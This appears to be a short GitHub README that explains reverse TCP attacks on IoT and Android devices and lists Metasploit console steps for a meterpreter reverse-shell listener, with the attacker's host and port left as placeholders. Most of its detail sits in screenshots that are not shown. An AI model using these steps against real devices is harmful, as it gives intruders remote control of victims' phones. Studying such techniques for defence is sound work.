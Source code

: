 # Reverse-TCP-Vulnerability

IoT devices are vulnerable to reverse TCP attacks.

The reverse TCP attack is a type of attack where the victim machine initiates the connection to the attacker machine. 
The attacker machine has a listener port on which it receives the connection, which it can use to execute the commands.

![Reversetcp](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/37464f86-906d-42cc-91b5-67784b5512cc)


The attacker creates a payload written using a bash shell script. This shell script carries the process payload in different forms. 
For example, in the case of Android devices, the shell script payload can be carried in the form of an Android apk.

msfvenom can be used to create payloads.

![msfvenom](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/78456489-0775-4a95-91db-e4d886252dbf)

Open the Metasploit console in the kali Linux terminal by typing "msfconsole."
After the Metasploit console opens, then type the command "use multi/handler"
Next set the payload by typing "set payload android/meterpreter/reverse_tcp"

Metasploit console in the kali linux used as a connection entry point between the attacker and the victim.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/966f41e8-3c55-4867-9ec4-d4228b9a255f)

Set LHOST <attackipaddress> this is the IP address used as a host.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/6a4a41b8-10c9-4395-9c07-96a8702dfa84)

Set LPORT <PORT attacker> this is the PORT used as a connection entry point between the attacker and the victim.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/a3702304-7407-4a7f-a1fd-1d2cc66c4554)

Exploit is a command to start an exploit between the attacker and the victim's device that has been previously
connected.
![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/7b0409cb-699e-4668-bfe1-80b0cd08968d)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/f6f46734-08a0-45bb-83e6-7263c70c78ed)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/f4dd9373-e027-4ba1-8dee-168951dd937e)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/59bc4f13-7c32-4867-b56b-ee5a7e69f7d4)







